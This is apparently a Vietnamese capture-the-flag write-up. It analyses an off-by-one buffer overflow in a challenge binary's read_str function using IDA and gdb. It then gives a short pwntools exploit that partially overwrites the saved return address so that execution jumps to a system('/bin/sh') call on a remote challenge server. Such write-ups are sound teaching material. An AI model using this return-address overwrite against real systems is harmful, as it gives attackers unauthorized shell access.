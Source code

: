 **1. Find bug**
- Mở ida để xem qua chương trình:
  + ![image](https://user-images.githubusercontent.com/113702087/212825794-781e3d14-6d17-4171-94a2-cacb4917f900.png)
  + Xem qua các ham ta thấy hàm unknown thực thi system("/bin/sh") đây sẽ là mục tiêu ta cần
  + ![image](https://user-images.githubusercontent.com/113702087/212825932-fb2bc207-b383-400a-ad14-72a389992030.png)
  + Và find_survivor() với read_str có bug overflow
  + ![image](https://user-images.githubusercontent.com/113702087/212826196-81824847-bd77-4cc4-9c18-2d1e32d87db7.png)
  + ![image](https://user-images.githubusercontent.com/113702087/212826244-f835c8cc-bbd1-4428-9421-fc8a47cd82e3.png)
  + read_str chỉ dừng nhập khi nhập newline hoặc i > size đã cho do đó ta có thể nhập hơn 1 byte.
- Debug với gdb:
  + ![image](https://user-images.githubusercontent.com/113702087/212826901-6e666d39-e4a2-41cc-bdf2-6f7494ff6a06.png)
  + đặt debug tại read_str và ret trong hàm find_survivor() để kiểm tra
  + ![image](https://user-images.githubusercontent.com/113702087/212827152-1c3d5b2d-210e-42ba-8150-05fe145b0d95.png)
  + địa chỉ v1 0x7fffffffdc90 và saverip = 0x7fffffffdce8, cách nhau 88 byte nhưng vs read_str(v1, 88); ta có thể nhập được 89 byte và overwrite saverip từ 0x40164a thành 0x40166f
  + ![image](https://user-images.githubusercontent.com/113702087/212828474-8a468bec-5295-4771-bca3-620eee90d836.png)
  + tức unknown+8 vì điều kiện thực thi system là rsp kết thúc = 0 khi thực thi push rbp stack sẽ bị giảm 8 byte -> không đủ điều kiện thực thi system và bị lỗi
  + nếu bắt đầu từ unknown+0 sẽ nhu này
  + ![image](https://user-images.githubusercontent.com/113702087/212829007-57ee7aa6-a3b5-409e-a8fc-67fc6cf0a461.png)
  + ![image](https://user-images.githubusercontent.com/113702087/212829089-7f7f9bf8-27df-4295-9675-1c389a9a27d5.png)
  + ![image](https://user-images.githubusercontent.com/113702087/212829118-971a2ac9-dd41-4249-a7ac-e380abdcce17.png)
  + ![image](https://user-images.githubusercontent.com/113702087/212829158-09d8bb7c-7597-4e09-987b-16ee3126a553.png)
 
**2. Exploit**
```
from pwn import *

exe = context.binary = ELF('./thelastone', checksec=False)

# r = exe.process()
# gdb.attach(r, api=True, gdbscript='''
#            b*0x00000000004014be
#            b*0x0000000000401519
#            b*0x0000000000401504
#            ''')

r = remote('159.89.197.210', 9995)

r.sendlineafter(b'> ', b'5')

name = b'a'*88 + b'\x6f'
r.sendlineafter(b'> ', name)

r.interactive()
```
![image](https://user-images.githubusercontent.com/113702087/212830005-6e0f8701-e156-4eee-8dcf-a800835c229a.png)
- vì có hàm rand nên phải nhờ may mắn =))

